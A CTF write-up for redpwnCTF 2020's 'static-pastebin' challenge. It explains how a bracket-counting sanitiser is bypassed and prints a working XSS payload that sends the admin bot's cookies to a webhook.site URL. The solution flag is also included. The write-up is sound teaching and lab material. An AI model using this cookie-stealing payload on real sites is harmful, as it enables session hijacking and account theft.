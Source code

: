 # static-pastebin
**Category:** Web

**Points:** 373

**Description:**
> I wanted to make a website to store bits of text, but I don't have any experience
with web development. However, I realized that I don't need any! If you experience
any issues, make a paste and send it `here` (https://admin-bot.redpwnc.tf/submit?challenge=static-pastebin)
>
> **Site:** `static-pastebin.2020.redpwnc.tf`
>
> **Note:** The site is entirely static. Dirbuster will not be useful in solving it.
>
> **Author:** BrownieInMotion

## Writeup
The first thing I do is check out both websites. The first website after "here"
was a bot URL submission page. The other website is a big text box, so yes, a
pastebin.

![Bot Submission](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin/bot_submission.PNG)

![Bot Submission](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin/pastebin.PNG)

Right away I realized this had to be a reflected XSS (Cross-Site Scripting) attack. There
are two types of XSS attacks: **stored** and **reflected**. A **stored** XSS attack
usually happens when a malicious script from an attacker is injected into a website
which is vulnerable to it. One application of this could be a reverse PHP shell,
allowing the attacker access to the webserver. Now, a **reflected** XSS attack
is when a malicious script is injected into a website, but takes advantage of people
visiting this website. Basically, an attacker is able to change a webpage in a way
to mess with another user/website visitor.

In this case, we have a **reflected** XSS attack because we have a bot page coming
to visit our website and it probably has some important information in it's **cookies**.
Anyways, let's see what happens if we paste something and enter it:

![First Attempt](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin/first_try.PNG)

Looks like the link it generated for us is in base64, but makes it so that we can
really put anything and it will condense down to a website the bot can go to. I
opened up the source code to see what we are working with. They have a public JS
file shown to us:
```
(async () => {
    await new Promise((resolve) => {
        window.addEventListener('load', resolve);
    });

    const content = window.location.hash.substring(1);
    display(atob(content));
})();

function display(input) {
    document.getElementById('paste').innerHTML = clean(input);
}

function clean(input) {
    let brackets = 0;
    let result = '';
    for (let i = 0; i < input.length; i++) {
        const current = input.charAt(i);
        if (current == '<') {
            brackets ++;
        }
        if (brackets == 0) {
            result += current;
        }
        if (current == '>') {
            brackets --;
        }
    }
    return result
}
```

Aaaaaand some sanitation. Looks like it doesn't want us to put any tags in at all.
The sanitation method is weird though. They use a counter to determine whether any
bracket has been laid down. If two have been laid down, everything in between those
brackets will be sanitized. Unlessss we switch up the order of the tags.

**Payload:** ` ><script>< `

**Output:**
```
<div id="paste">
    &gt;<script><</script>
</div>
```

I tried a few ways to get an **alert** to pop up, but no luck. I figured out that
the only thing that is possible is to make this exploit in **one tag**. But how?


The `<img>` tag has a `src` attribute, which allows us to maybe redirect the
user to a different website. I ended up getting this to return a JS alert:
` ><img src=x onerror=alert(1);>< `.

Sweet! This is definitely a sanity check lol. Now I needed to just steal the bot's
cookie (or my own for testing). This took me about a year to find, but this
website called **Webhook** gives us a url to live on and send request to. I did some
digging and research and found the final exploit. I will have my cookie be:
` XSS = but make it reflected `.

**Exploit:**
```
><img src=x onerror=this.src='https://webhook.site/b3ead4c5-b498-4d5f-9b82-f6fa49d9639f/?'+document.cookie; this.removeAttribute('onerror');><
```

**Webhook:**

![First Attempt](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin/make_it_reflected.PNG)

Niceeeeee. Now let's give this malicious cookie-stealing link to the admin bot.

**Webhook:**

![First Attempt](https://github.com/itsecgary/CTFs/tree/master/redpwnCTF%202020/static-pastebin/bot.PNG)

I thought this challenge was pretty cool to be honest. I learned about XSS attacks
in school, but never had to develop a payload for one. Awesome challenge.

## Flag
flag{54n1t1z4t10n_k1nd4_h4rd}

## Resources
[Webhook](https://webhook.site/)
